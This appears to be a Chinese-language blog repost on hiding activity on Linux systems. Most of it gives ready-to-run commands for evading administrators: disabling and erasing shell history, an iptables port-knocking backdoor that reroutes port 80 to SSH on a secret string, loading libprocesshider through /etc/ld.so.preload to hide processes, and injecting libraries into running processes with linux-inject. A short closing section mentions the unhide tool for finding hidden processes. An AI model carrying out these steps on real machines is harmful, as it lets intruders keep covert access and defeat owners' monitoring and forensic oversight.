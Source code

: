 ```yaml
---
title: "Linux隐藏技术"
layout: post
date: 2019-09-05
image: /assets/images/markdown.jpg
headerImage: false
tag:
- markdown
- components
- extra
category: blog
blog: true
author: DshSec
description: 涉及Linux下文件隐藏、进程隐藏、端口复用

---
```


#####  原文信息
原文作者：Bypass公众号   
原文链接：[点击此处直接访问](https://mp.weixin.qq.com/s?srcid=0902Zm6E1XSvVIgYt2Q3jSZm&scene=23&sharer_sharetime=1567437712765&mid=2448904250&sharer_shareid=64458b89777349122de4fc747d336e14&sn=cce745079e51ab4bb013de00c2125bf0&idx=1&__biz=MzA3NzE2MjgwMg%3D%3D&chksm=8b55c067bc22497125d4bd5f7a03e46c214d5db11e5bbdbb8422c92cbcf85e3653def6bab6c5&mpshare=1&key=b1d774c47332243a7516756d3a9fe660b8c7273d25a3a287bd403be11be6776acfe040d8b96edbaf8401c621fdcbd22748edd0c8295201dfafbc1aa7145e0cd9d0f5461881deb303b24b52a0cd9126d8&ascene=1&uin=MTA1MTI5MTUyMQ%3D%3D&devicetype=Windows+10&version=62060834&lang=zh_CN&pass_ticket=XTJUAgoC6SLk6U6jutYqGfS1%2BFGlLiWGnPMvZJGYArRcBGENrZolo0laVgipfxHI)

##### Linux创建隐藏文件
	touch .test.txt  		文件名前加点就是隐藏文件

#####  Linux隐藏权限
*创建一个root和其他用户删不了的文件，并且用ls-la 看不出来权限*    

	chattr +i .test.txt 		锁定一个隐藏文件(也可以是普通文件)  
	lsattr .test.txt			属性查看  
	chattr -i .test.txt		解除锁定  
  
##### 隐藏历史操作命令
+  开启无痕模式  
	```
	[space] set +o history	开启无痕操作模式	[space]表示空格，由于空格的缘故该命令本身也不会被记录
	[space] set -o history 	关闭无痕模式  工作执行完成后，再执行这个命令  
	```
+  删除指定的历史记录  
	```
	history -d [num]  
	```
+  批量删除历史记录  
	```
	sed -i '150,$d' .bash_history 	只保留前150条
	```

#####  端口复用实现隐藏端口
*通过端口复用来达到隐藏端口的目的*  

+  通过SSLH在同一端口上共享SSH和HTTPS  
```
	sudo apt-get install sslh  #安装sslh  
	sudo vi /etc/default/sslh	#编辑SSLH配置文件  
	1.修改Run=no 为Run=yes  
	2.修改下列行以允许SSLH在所有可用接口上侦听端口443  
	 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
```
+  利用IPTables进行端口复用
```
	#端口复用链   
	iptables -t nat -N LETMEIN    
 	# 端口复用规则   
	iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22   
	# 开启开关   
	iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT  
	# 关闭开关  
	iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT  
	# let's do it  
	iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN  
```
+  利用方式  
```
	#开启复用    
	echo threathuntercoming | socat - tcp:192.168.28.128:80   
	#ssh使用80端口进行登录   
	ssh -p 80 root@192.168.28.128   
	#关闭复用   
	echo threathunterleaving | socat - tcp:192.168.28.128:80   
```
查看详细介绍请点击：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

#####  进程隐藏  
*管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏*  

+  通过libprocesshider进行隐藏   
github项目地址：https://github.com/gianlucaborello/libprocesshider   
利用LD_PRELOAD来实现系统函数的劫持   
```
	# 下载程序编译   
	git clone https://github.com/gianlucaborello/libprocesshider.git    
	cd libprocesshider/ && make   
	# 移动文件到/usr/local/lib/目录下   
	cp libprocesshider.so /usr/local/lib/   
	# 把它加载到全局动态连接局   
	echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload   
```
+   使用linux-inject进行进程注入   
github项目地址：https://github.com/gaffe23/linux-inject.git   
linux-inject是用于将共享对象注入Linux的工具   
```
	# 下载程序编译   
	git clone https://github.com/gaffe23/linux-inject.git    
	cd linux-inject && make   
	# 测试进程   
	./sample-target   
	# 进程注入    
	./inject -n sample-target sample-library.so   
```

##### 如何在linux中发现隐藏的进程？
>unhide 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。  
>下载地址：http://www.unhide-forensics.info/    
>安装   
>sudo yum install unhide   
>使用   
>unhide [options] test_list   
